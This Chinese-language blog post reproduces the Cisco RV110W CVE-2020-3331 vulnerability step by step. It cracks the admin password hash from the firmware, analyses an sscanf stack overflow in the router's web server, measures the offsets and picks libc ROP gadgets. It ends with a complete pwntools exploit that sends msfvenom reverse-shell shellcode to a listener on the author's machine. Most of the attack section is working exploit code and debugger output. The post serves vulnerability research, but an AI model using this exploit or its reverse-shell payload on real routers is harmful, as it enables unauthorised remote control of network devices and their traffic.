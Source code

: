 ```yaml
---
title: Cisco RV110W 路由器 CVE-2020-3331 漏洞复现
date: 2024-03-11 16:33:55
tags: [IOT, 路由器， Pwn]
categories: [技术]
excerpt: "IOT Reboot!"
thumbnail: "https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_cisco.jpg"
---
```


某天发现实验室里有这个路由器，是学长留下的，那这不日日都说不过去了吧

参考：

[思科路由器 RV110W CVE-2020-3331 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

### Start

首先可以拿到该设备的固件，解包固件可以找到 `/etc/shadow` 里面存的 admin 用户的密码 hash

`/sbin/rc` :

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_rc.png.avif)

使用 hashcat 可以对该 hash 进行爆破，需要事先准备一份弱密码字典，最后爆出来 密码是 `Admin123` 。有了密码，就能直接通过 telnet 远程连上路由，这样有 shell 比较方便复现漏洞

搜索 `login.cgi` 路由，以确定 web 服务器程序是哪一个

```bash
grep -rn "login.cgi" * 2>/dev/null
# 递归搜索关键字，并将stderr重定向到null
# '*' 表示搜索所有文件
# r 表示递归，n 表示显示行号
```

最终确定是 `/sbin/httpd`

分析 `/sbin/httpd` 程序中的 `guest_logout_cgi()` ，发现危险函数 `sscanf()`

```c
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) ) //MAC 和 IP 有效
    {
      if ( !strstr(v11, "status_guestnet.asp") ) //submit_button 包含 status_guestnet.asp
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);  
```

这个 `sscanf` 是在从`v11`正则匹配存到 `v29` `v28` ，存在栈溢出漏洞

匹配规则：`%`表示要，`%*`表示不要

- `%[^;]` 分号前面的所有字符都要，存在 `v29`
- `;%*[^=]` 分号后等号前所有的东西都不要
- `=%[^\n]` 等号后所有东西都要，存在 `v28`

比如 `aaa;bbb=ccc` 就是`aaa`和`ccc`被提取出

其实这个匹配不重要，此时 v11 就是 `submit_button=` 后面的值

故分析程序路径要到达这个 sscanf 得有三个参数且满足对应的要求：

1. cmac：MAC 地址格式
2. cip：IP 地址格式
3. submit_button: 包含 status_guestnet.asp

我们可以传输超长的 submit_button 项来测试是否会溢出，另外两个 cmac 和 cip 都有格式检测，唯有 submit_button 只需要包含字符串 `status_guest.asp` 即可

可以写一个 python 脚本来发包看看：

```py
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

post 上去之后，web 页面就无法访问了，为了得到更多的细节，我们可以传一个 gdbserver 上去远程调试

[https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
./gdbserver --attach 0.0.0.0:1234 515 # httpd pid
```

经过调试，执行到 `sscanf` 时，v29 会匹配到 `submit_button` 的值，如果后面不加更多参数的话 v28 什么都匹配不到

v29 正好是该函数栈最底端的数据，紧接 fp 和 pc，那么覆盖 pc 将非常容易

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_stack.png.avif)

```bash
pwndbg> distance 0x7fcc839c 0x7fcc8404
0x7fcc839c->0x7fcc8404 is 0x68 bytes (0x1a words)
# len("status_guestnet.asp") == 19
# 0x68-19 = 85
```

所以填充长度为85

```python
payload = b"status_guestnet.asp"+b'a'*85+p32(pc)
```

mips 没有 nx ，所以可以 shellcode in stack

如下图，函数退出时，这些寄存器都可以自由控制

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_ida.png.avif)

首先得找到合适的 gadget, 把栈地址给寄存器，然后再跳到寄存器

不能使用程序本身的 gadget，因为程序的地址有`\x00` ，发过去就截断了，所以考虑使用 libc

经过调试发现 libc 的地址是固定的，并没有随机化，固定为 0x2af98000，可以在 libc 中查找 gadget

```bash
# stackfind 表示查找给寄存器赋栈地址值的 gadget,同时使用 move $t9 过滤跳转寄存器指令
ROPgadget --binary libc.so --mipsrop "stackfinder"|grep 'move $t9'
#0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
# 该 gadget 将 sp+0x28 赋给a0，然后跳转到 s1,注意这里向前提了一条是防止地址有\x00
ROPgadget --binary libc.so |grep 'move $t9, $a0'
#0x0003d050 : move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9 ; addiu $a0, $sp, 0x18
# 跳转到栈地址
```

至于控制各寄存器的栈偏移位置可以用 `cyclic()` `cyclic_find()`测算

shellcode 的功能是反弹shell，所以开一个端口进行监听，shellcode 可以用[这个](http://shell-storm.org/shellcode/files/shellcode-860.php)，也可以用 msf 生成，我选择用 msf

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=10.10.10.100 LPORT=31337 --arch mipsle --platform linux -f py -o shellcode.py
```

### exp

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000

jmp_s0 = libc + 0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
jmp_a0 = libc + 0x0003D050 # move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9

shellcode = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x0a\x64\x05\x3c\x0a\x0a\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

# offset for s0: 49
#s1: 53
#s2: 57

payload = b"status_guestnet.asp" +b'a'*49+p32(jmp_a0)+32*b'a'+p32(jmp_s0)+0x28*b'a'+shellcode
#payload += cyclic(100)
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"10.10.10.100"}

def attack():
    try: requests.post("https://10.10.10.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.Thread(attack,()).run()
io.wait_for_connection()
log.success("getshell")
io.interactive()

# reg 0x0431B58
#0x431bb0
```

[https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

其实我贴的这个文章中有一个错误，其选择的 libc gadget 0x000257A0 有一个指令为

```nasm
sw     $v0, 0x18($sp)
```

而 `$sp+0x18` 正好是他写 shellcode 的地方，此时 v0 为 0，这个指令会让 shellcode 第一条指令
`slti $a0, $zero, 0xFFFF` 变成 `nop`，导致第一个 syscall：close(stdin) 实际上没有正常执行